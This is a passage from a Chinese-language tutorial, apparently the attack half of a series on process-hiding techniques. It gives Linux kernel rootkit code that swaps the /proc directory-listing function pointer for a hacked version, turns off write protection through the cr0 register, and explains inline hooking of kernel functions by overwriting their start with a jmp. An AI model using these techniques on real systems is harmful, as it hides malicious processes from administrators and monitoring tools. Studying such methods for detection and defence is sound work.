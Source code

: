 ```
   printk("Hidden process is [tgid:%d][pid:%d]:%s\n",ctx->pos,iter.task->pid,iter.task->comm);
   continue;    
  }
```
`VFS`层的劫持主要还是针对的`文件操作集`，因此首先就得先找到要劫持的操作的`函数地址`和`函数指针`，然后替换调`函数指针`指向的地址。

对于外界来说，看起来还像是在用`proc_root_readdir()`函数，但是实际上使用的是可以控制的`hack_proc_root_readdir()`函数，这点可以通过替换指针很容易做到。
```
int __init hack_kernel(void){
  printk("Kernel VFS hacked!!");
  struct file *getfile;
  struct file_operations *getfile_op;

  getfile = filp_open("/proc",O_RDONLY,0);
  if(IS_ERR(getfile)){
    printk("open proc error\n");
    return -1;
  }

  origin_proc_root = getfile->f_op->iterate_shared;
  getfile_op = getfile->f_op;
  set_addr_rw();
  getfile_op->iterate_shared = hack_proc_root_readdir;
  set_addr_ro();
  filp_close(getfile,0);

  return 0;
}
```
> 其中涉及到`内存读写保护`的问题，可以通过控制`cr0`寄存器来解决。也就是针对`cr0`寄存器的第`16`位置`0/1`操作

已经劫持了指定的`文件操作`，那就是要重写相应的`操作函数`，倘若内核开启了`CONFIG_KALLSYMS`就可以通过调用`kallsyms_lookup_name`来快速重写函数，如果没有开启的话，则只能自己重新实现该函数了，那工程量其实比较大。
> 针对VFS的劫持还有`proc_root_lookup`的劫持，这个和`proc_root_readdir`是相同的操作，因此不做过多赘述。

## ring0 Inline hook

### `Jmp`修改劫持内核函数，修改返回信息
> 下面一段信息参照[Linux内核如何替换内核函数并调用原始函数](https://blog.csdn.net/dog250/article/details/84201114)

现在的计算机基本都是`冯诺依曼式的统一存储式计算机`，即指令与数据存在一起，那就代表可以在操作系统层面任意解释内存空间的含义。
1. 将函数地址对应的物理内存映射成可写
2. 用`jmp`指令替换函数
3. 解除可写映射

> 借用一下这张图，虽然我并非完全按照这张图实现的，但是画得确实不错。

![å¨è¿éæå¥å¾çæè¿°](进程隐藏技术的攻与防-攻篇_files/3caab1b1-78b8-401a-b52c-83e84ce9bb3e.png)

关于`jmp`的方法大概就是`近跳转(Near Jmp)`
```
jmp dst_address_offset 
```
而`dst_address_offset=目的地址 - HOOK点开始位置 - jmp指令占用地址(此命令共占用5个地址)`
> 5个地址是因为`jmp`指令占5个地址，而`hook`的目的就是把`jmp`指令替换掉原函数的开头。
